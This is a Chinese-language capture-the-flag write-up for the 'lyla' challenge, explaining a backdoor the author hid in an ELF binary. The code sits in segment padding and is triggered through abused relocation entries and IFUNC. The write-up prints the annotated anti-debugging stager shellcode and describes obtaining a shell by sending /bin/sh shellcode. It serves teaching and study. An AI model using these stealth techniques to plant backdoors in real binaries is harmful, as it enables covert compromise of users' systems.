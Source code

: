 ## lyla

解题脚本见 solve.py。

题目表面上的逻辑是一个无解题：经典的“输入密码，检查密码是否正确，正确则读取并输出 flag 文件内容”。但验证逻辑为“固定 32 字节的输入，使用输入作为 key 运行 Speck (128/128) 加密算法，要求结果等于另一固定值”，该验证逻辑在该密码算法不被攻破的情况下是不可能被解出的。

程序里藏有常见逆向工具（测试了 IDA Pro、objdump、readelf、Ghidra）不会直接显示的后门，后门主体代码编码后放置在 .text section 所属的 segment 结尾的填充数据中，ELF 头不会将这段数据标记为需要加载，但 Linux 实际映射文件内容进内存的时候是按页对齐的，是可以访问到的。后门代码的解码和触发逻辑藏在了重定位表里，重定位表的结构这里不再赘述，感兴趣的同学可以自行翻阅 glibc 源码中的 `glibc/sysdeps/x86_64/dl-machine.h`。

本题利用了以下几个重定位类型：

* `R_X86_64_SIZE64` - 指定 symbol index = 0，则该重定位项的实际效果为写 `*(uint64_t*)(elf_base+addr) = (addend+0);`
* `R_X86_64_COPY` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `memcpy(elf_base+addr, symbol_value, symbol_size);`
* `R_X86_64_RELATIVE` - `*(uint64_t*)(elf_base+addr) = (elf_base+addend);`
* `R_X86_64_64` - 记指定 symbol 解析出来的地址为 symbol_value，则实际效果为 `*(uint64_t*)(elf_base+addr) = (symbol_value + addend);`

此外我们还利用了 IFUNC 机制，将符号类型设置为 `STT_GNU_IFUNC` 后，ld.so 在解析该符号时会将原本解析出来的值当作函数指针调用，并将函数返回值作为解析出来的符号值。这可以用来触发 shellcode 执行。

ld.so 在加载 ELF 的时候支持处理两个重定位表，分别由 DT_RELA 和 DT_JMPREL 指定，分别指向 .rela.dyn 和 .rela.plt 两个节，处理顺序为先 DT_RELA 再 DT_JMPREL。虽然在 ELF 格式规范中定义 DT_JMPREL 只能包含 JUMPSLOT 等少数几种重定位项，但 ld.so 在处理时并未人为做出限制，而是使用了一样的完整 `dl_machine`。
为了让包含后门的重定位表不显得过于显眼，我们并没有选择将触发后门的重定位表项直接插入原始的重定位表中，而是利用 RELA 和 JMPREL 在内存中紧密相接这一点，修改 DT_RELASZ，将其设置为 DT_RELASZ + DT_PLTRELSZ - 1 [1]，使得 .rela.plt 节中的内容会被解析两次，并在 .rela.dyn 中加入了五项作为第一阶段，其中四个 `R_X86_64_RELATIVE` 首先修改了 ELF 符号表中 `_ZNKSt5ctypeIcE8do_widenEc` 的类型为绝对符号，然后将其值覆盖为符号表中 `_ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE10_M_disposeEv` 的元数据地址。接下来触发 `R_X86_64_COPY` 将位于首个 ELF Segment 结尾的数据覆盖符号表中 `..._disposeEv` 的元数据。覆盖的元数据将在后续触发该符号的 `R_X86_64_COPY` 时将位于 segment 结尾的后门重定位项覆盖至 .rela.plt 节中。ld.so 在接下来处理 JMPREL 时即会运行我们触发后门的重定位表项。
后门重定位表项的最后使用同样的方法将备份的原始 .rela.plt 内容复制了回去。这样在第二次执行处理 JMPREL 时将可以正常处理原始 JMPREL 中的重定位项。

这里用了一个两层的加载，是为了在 binary 被 strip 或由 WSL 加载等情况下避免 crash。前述两种情况下 segment 末尾的数据均会被清零，如果没有第二层加载，我们将会使用全 0 数据覆盖重定位表，导致程序 crash。加入第二层加载后，如果 segment 末尾的数据被清零，则第二次 COPY 的大小为 0，不会覆盖。

我们加入的重定位项逻辑如下：

1. 获取 ELF .dynamic 节中的 DT_DEBUG 指针，该指针指向一个 `_r_debug` 结构体，其中包含了一个指向 `link_map` 结构体的指针，该结构体包含了 ELF 的基地址、大小、符号表及所有的 dynamic tag 的值。
2. 计算出 link_map + 64 + 13 * 8 的地址保存至 .text 结尾处备用，其中 13 为 DT_FINI 的值。该地址是 `link_map->dl_info[DT_FINI]`，其控制了 ld.so 在程序退出时调用的 fini 函数地址。
3. 解析 `_dl_argv` 变量和 `time` 函数的值备用。
4. 在 .text 段结尾处写入一段 shellcode 并利用 IFUNC 机制运行。

注释后的 shellcode 内容如下：

```asm
_begin:
    push rbx
    lea rbx, [rip+_begin-8]
    mov rdi, [rbx] /* &_dl_argv */

    // Make sure argv[0] starts with '/' (which is unusual when debugging, but plausible with xinetd)
    mov rcx, [rdi]
    jrcxz bye
    cmp byte ptr [rcx], '/'
    jnz bye

    /* Optimized (for size) loop for skipping argv */
    /* No need to populate rcx: it is guaranteed to have a pointer now */
    xor eax, eax
    repnz scasq

    // Check for environment variable "LINES", "COLUMNS", "LD_PRELOAD" and "LD_AUDIT".
    // To make it tight we use an approximation: just check the first 4 characters.
env_check_loop:
    mov rcx, [rdi]
    scasq
    jrcxz env_check_okay
    mov eax, dword ptr [rcx]
    ror eax, 1
    cmp eax, 0xaaa627a1 /* "COLU" */
    jz bye
    // hex(ror(u32(b"LD_P"), 1, 32) & 0xffff). there might be false positive but
    // we don't care as long as there aren't in prod.
    cmp ax, 0xa226
    jz bye
    jmp env_check_loop

env_check_okay:
    /* Patch payload to only run at correct time. rdi points to auxv (writable) */
    xor edi, edi
    call [rbx-8]
    /* Decode payload only when time() % 64 == 0 */
    test al, 63
    movqq rcx, PAYLOAD_SIZE_IN_WORDS
    movabs r11, VALUE_TO_WRITE
    lea rdi, [rbx+(_end-_begin)+8]
    jnz bye
    imul eax, eax, 119
    stosd
    // Decode payload
    xor eax, eax
decode_loop:
    xor [rdi+rcx*4], eax
    jz bye
    add eax, [rdi+rcx*4]
    loop decode_loop

    // Overwrite dl_info[DT_FINI] in link_map
    movabs r10, ADDR_TO_WRITE
    mov [r10], r11

bye:
    // Zeroing self
    movqq rdi, rbx
    movqq rcx, _fin-_begin+8
    xor eax, eax
    pop rbx
    rep stosb
    _fin:
    ret
_end:
```

其首先进行了一些反调试工作，检查 `argv[0]` 是否以 `'/'` 开头，检查环境变量中是否包含 `COLUMNS` （gdb 会设置该环境变量） 和 `LD_PRELOAD`，然后检测 `time()` 的返回值是否模 64 为 0（即后门每 64 秒触发一次），都通过后会将 `link_map->dl_info[DT_FINI]` 的值覆盖为这段 shellcode 结尾处的地址，并解码其内容，将 `time()` 乘 119 后保存到指定偏移，最后将自身内容清零。通过控制文件中的内容布局，我们在 shellcode 结尾处布置了另一段编码后的 shellcode，这样它会在程序退出时被执行。

另一段 shellcode 则是实际的后门代码，其会首先解析 vDSO 中的 `clock_gettime`，检查此时 `clock_gettime(CLOCK_REALTIME, ...)` 的返回值和程序开始时间是否正好差 3，程序里读入的密码 buffer + 255 字节偏移处是否非 0，若都是，则在程序里面读入的密码 + 128 字节偏移处的 16 字节上以硬编码的密钥运行 Speck (128/128)，并检查结果是否为另一硬编码的值。若满足条件，则将密码 buffer 通过 mprotect 设置为可执行并运行。

逆向清楚后门的逻辑后，获取 flag 就比较简单了，我们只需要使用 Speck (128/128) 解密触发后门所需的数据，将其和 /bin/sh shellcode 按照上述格式拼接好，在符合条件的时间连接到远程服务器，在三秒后发送，即可获得 shell。获得 shell 后直接 `cat flag.txt` 即可。如果选手的环境没有条件和服务器时间达成同步，也可以每秒启动一个连接，直到成功，也可以在至多 70 秒内解出。

[1] 减一的原因是 ld.so 里特别检查了 JMPREL 完全是 RELA 的一部分的情况，在这种情况下会跳过第二次执行。
